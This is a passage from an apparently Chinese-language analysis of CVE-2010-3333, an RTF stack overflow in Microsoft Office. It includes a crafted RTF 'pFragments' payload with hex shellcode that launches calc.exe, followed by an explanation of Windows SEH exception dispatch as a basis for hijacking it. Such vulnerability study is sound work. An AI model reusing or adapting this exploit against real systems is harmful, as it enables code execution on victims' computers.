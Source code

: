 我们用180h **都要小写**

```
{\rtf1{\shp{\sp{\sn pFragments}{\sv 3;1;11111111800190909090909090909090909090909090909090905d744473909090909090909090909090909090900000000033c9648b41308b400c8b7014ad96ad8b5810538b533c03d38b527803d38b722003f333c941ad03c381384765745075f4817804726f634175eb8178086464726575e28b722403f3668b0c4e498b721c03f38b148e03d35b33c951b97865636151836c2403616857696e455453ffd233c951682e6578656863616c638bdc6a0553ffd0}}}}
```

![image-20220719194532639](cve-2010-3333.assets/image-20220719194532639.png)

### 劫持SEH异常处理

本程序产生的异常属于用户态的异常。

处理过程

```
1、如果发生异常的程序正在被调试，那么将异常信息发送给正在调试它的用户态调试器，给调试器第1次处理机会；如果没有被调试，跳过本步。
2、如果不存在用户态调试器或调试器未处理该异常，那么在栈上放置EXCEPTION_RECORD和CONTEXT两个结构以及记录这两个结构位置的EXCEPTION_POINTERS结构，并将控制权返回给用户态ntdll.dll中的KiUserExceptionDispatcher函数，由它调用ntdll!RtlDispatchException函数进行用户态的异常处理。
3、如果ntdll!RtlDispatchException函数在调用用户态的异常处理过程中未能处理该异常，那么异常处理过程会再次返回nt!KiDispatchException，它将再次把异常信息发送给用户态的调试器，给调试器第2次处理机会。如果没有调试器存在，则不会进行第2次分发，而是直接结束进程。
4、如果第2次机会调试器仍不处理，nt!KiDispatchException会再次尝试把异常分发给进程的异常端口进行处理。该端口通常由子系统进程csrss.exe进行监听。子系统监听到该错误后，通常会显示一个“应用程序错误”对话框，用户可以单击“确定”按钮或者最后将其附加到调试器上的“取消”按钮。如果没有调试器能附加于其上，或者调试器还是处理不了异常，系统就调用ExitProcess函数来终结程序。
5、在终结程序之前，系统会再次调用发生异常的线程中的所有异常处理过程，这是线程异常处理过程所获得的清理未释放资源的最后机会，此后程序就终结了。
```
